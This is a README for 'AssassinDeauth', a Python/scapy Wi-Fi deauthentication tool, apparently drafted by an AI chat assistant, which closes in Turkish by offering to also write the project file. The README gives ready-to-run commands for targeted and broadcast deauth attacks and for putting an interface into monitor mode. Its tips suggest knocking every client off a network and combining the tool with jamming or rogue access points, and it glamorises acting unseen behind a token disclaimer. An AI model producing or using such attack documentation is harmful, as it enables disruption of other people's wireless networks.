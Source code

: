 📄 README.md
markdown
Kopyala
Düzenle
# 🛡️ AssassinDeauth – Shadow Wireless Disruption Tool

vbnet
Kopyala
Düzenle
  ▄████████  ▄██████▄   ▄█          ▄████████    ▄████████ 
 ███    ███ ███    ███ ███         ███    ███   ███    ███ 
 ███    █▀  ███    ███ ███         ███    █▀    ███    ███ 
 ███        ███    ███ ███        ▄███▄▄▄      ▄███▄▄▄▄██▀ 
 ███        ███    ███ ███       ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   
 ███    █▄  ███    ███ ███         ███    █▄  ▀███████████ 
 ███    ███ ███    ███ ███▌    ▄   ███    ███   ███    ███ 
 ████████▀   ▀██████▀  █████▄▄██   ██████████   ███    ███ 
                        ▀                                
   ⚔ Built in the shadows by Miço | Deauth in silence ⚔
yaml
Kopyala
Düzenle

## ❗ Disclaimer

This tool is **strictly for educational and authorized penetration testing only**.

Performing deauthentication attacks on unauthorized networks is **illegal** and **unethical**.

---

## ⚙️ Features

- 🔧 Written in pure **Python3** using `scapy`
- 🧠 Command-line interface with `optparse`
- 🖥️ Metasploit-style logging with timestamps
- 🎭 Broadcast or single target **802.11 deauth** attack
- ⚔️ Assassin’s Creed & Anonymous-themed ASCII intro
- 🧵 Clean and minimal — easy to extend

---

## 📦 Dependencies

```bash
pip install scapy
sudo apt install aircrack-ng
🛰️ Usage
🎯 Targeted Deauth Attack
bash
Kopyala
Düzenle
sudo python3 assassindeauth.py -i wlan0mon -a 11:22:33:44:55:66 -t AA:BB:CC:DD:EE:FF -r 300
💣 Broadcast Deauth (All Clients)
bash
Kopyala
Düzenle
sudo python3 assassindeauth.py -i wlan0mon -a 11:22:33:44:55:66 -r 500
🛠️ Options
Option	Description
-i, --interface	Monitor mode wireless interface (e.g. wlan0mon)
-a, --ap	MAC address of the target Access Point (router)
-t, --target	MAC address of a specific client (optional)
-r, --rang	Number of deauth packets to send (default: 100)

🧙‍♂️ How to Prepare Your Interface
bash
Kopyala
Düzenle
sudo airmon-ng start wlan0      # Enables monitor mode (wlan0mon)
sudo airodump-ng wlan0mon       # Scan for clients/APs
🔥 Sample Output
less
Kopyala
Düzenle
[15:42:01] [INFO] Interface: wlan0mon
[15:42:01] [INFO] AP MAC: 11:22:33:44:55:66
[15:42:01] [INFO] Target MAC: AA:BB:CC:DD:EE:FF
[15:42:01] [INFO] Sending deauth to target AA:BB:CC:DD:EE:FF via AP 11:22:33:44:55:66
[15:42:12] [SUCCESS] Deauth packets sent.
💡 Tips
Use airodump-ng to discover MAC addresses of routers and clients.

Use ff:ff:ff:ff:ff:ff broadcast mode to kick all devices off.

Best results when paired with signal jamming or rogue AP attacks.

👁️ Final Words
"Nothing is true, everything is permitted."
– Ezio Auditore da Firenze

Crafted in the shadows, run in silence, and vanish before you're seen.
Use wisely, hacker...

less
Kopyala
Düzenle
#anonymous  #assassinscreed  #deauth  #wifi  #pentest  #python  #miço
yaml
Kopyala
Düzenle

---

İstersen README'ye GIF veya terminal animasyonu da ekleyebiliriz. Bu dokümana ek olarak proje dosyasını da oluşturayım mı miço?

&nbsp;  
&nbsp;  
&nbsp;  
**– gölgelerde yazılan, ışığı susturan bir araç…**
